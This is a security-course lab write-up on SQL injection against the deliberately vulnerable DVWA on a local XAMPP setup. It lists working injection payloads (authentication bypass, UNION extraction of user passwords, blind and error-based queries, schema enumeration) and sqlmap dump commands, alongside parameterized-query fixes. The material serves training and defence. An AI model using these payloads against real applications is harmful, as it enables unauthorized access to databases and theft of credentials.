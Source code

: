 # Section 9: SQL Injection Lab

## Objective
Identify, exploit, and prevent SQL injection vulnerabilities in web applications to understand this critical security threat.

## Learning Goals
- Understand how SQL injection attacks work
- Learn to identify vulnerable web applications
- Practice different types of SQL injection techniques
- Implement proper input validation and parameterized queries
- Use security tools to detect SQL injection vulnerabilities

## Lab Environment
- **Target Application:** DVWA (Damn Vulnerable Web Application)
- **Database:** MySQL
- **Tools:** Burp Suite, SQLMap, OWASP ZAP
- **Operating System:** Windows 10/11 with XAMPP

## Step-by-Step Procedures

### Step 1: Environment Setup
1. **Install XAMPP:**
   - Download and install XAMPP
   - Start Apache and MySQL services
   - Verify services are running on localhost

2. **Deploy DVWA:**
   - Download DVWA from GitHub
   - Extract to XAMPP htdocs directory
   - Configure database connection
   - Set security level to "Low" for initial testing

### Step 2: Basic SQL Injection Testing
1. **Navigate to SQL Injection page:**
   - Access DVWA SQL Injection module
   - Observe the user input form

2. **Test basic injection:**
   ```sql
   -- Basic injection to bypass authentication
   ' OR '1'='1
   
   -- Union-based injection
   ' UNION SELECT user, password FROM users--
   
   -- Error-based injection
   ' AND (SELECT * FROM (SELECT COUNT(*),CONCAT(version(),FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a)--
   ```

### Step 3: Advanced SQL Injection Techniques
1. **Blind SQL Injection:**
   ```sql
   -- Time-based blind injection
   '; WAITFOR DELAY '00:00:05'--
   
   -- Boolean-based blind injection
   ' AND (SELECT COUNT(*) FROM information_schema.tables WHERE table_schema=database())>0--
   ```

2. **Database Enumeration:**
   ```sql
   -- List all databases
   ' UNION SELECT schema_name, NULL FROM information_schema.schemata--
   
   -- List tables in current database
   ' UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema=database()--
   
   -- List columns in users table
   ' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users'--
   ```

### Step 4: Automated Testing with SQLMap
1. **Install SQLMap:**
   ```bash
   pip install sqlmap
   ```

2. **Basic SQLMap scan:**
   ```bash
   sqlmap -u "http://localhost/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=your_session_id" --batch
   ```

3. **Comprehensive scan:**
   ```bash
   sqlmap -u "http://localhost/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=your_session_id" --dbs --tables --columns --dump --batch
   ```

### Step 5: Prevention and Mitigation
1. **Implement parameterized queries:**
   ```php
   // Vulnerable code (DON'T DO THIS)
   $query = "SELECT * FROM users WHERE id = " . $_GET['id'];
   
   // Secure code (DO THIS)
   $stmt = $pdo->prepare("SELECT * FROM users WHERE id = ?");
   $stmt->execute([$_GET['id']]);
   ```

2. **Input validation:**
   ```php
   // Validate and sanitize input
   $id = filter_var($_GET['id'], FILTER_VALIDATE_INT);
   if ($id === false) {
       die("Invalid input");
   }
   ```

## Key Screenshots
- [Screenshot 1: DVWA login and setup]
- [Screenshot 2: Basic SQL injection bypass]
- [Screenshot 3: Union-based injection results]
- [Screenshot 4: SQLMap automated scan results]
- [Screenshot 5: Database enumeration output]
- [Screenshot 6: Prevention code examples]

## Key Takeaways
- **SQL injection is a critical vulnerability** affecting web applications worldwide
- **Input validation is essential:** Never trust user input without validation
- **Parameterized queries prevent injection:** Use prepared statements instead of string concatenation
- **Automated tools are powerful:** SQLMap can quickly identify and exploit vulnerabilities
- **Defense in depth:** Multiple layers of protection are necessary

## Attack Vectors
- **Authentication bypass:** Using ' OR '1'='1 to bypass login
- **Data extraction:** Using UNION queries to retrieve sensitive data
- **Database manipulation:** Inserting, updating, or deleting records
- **System compromise:** Accessing file system or executing commands

## Prevention Strategies
1. **Use parameterized queries/prepared statements**
2. **Implement proper input validation and sanitization**
3. **Apply principle of least privilege to database users**
4. **Use web application firewalls (WAF)**
5. **Regular security testing and code reviews**
6. **Keep databases and applications updated**

## Security Implications
- SQL injection is listed in OWASP Top 10
- Can lead to complete database compromise
- Often results in data breaches and compliance violations
- Critical for web application security professionals to understand

## Next Steps
- Practice with different database systems (MySQL, PostgreSQL, SQL Server)
- Learn about NoSQL injection attacks
- Study advanced evasion techniques
- Implement comprehensive prevention strategies

---
*Lab completed: September 10, 2025 | Duration: 2.5 hours | Status: ✅ Complete*
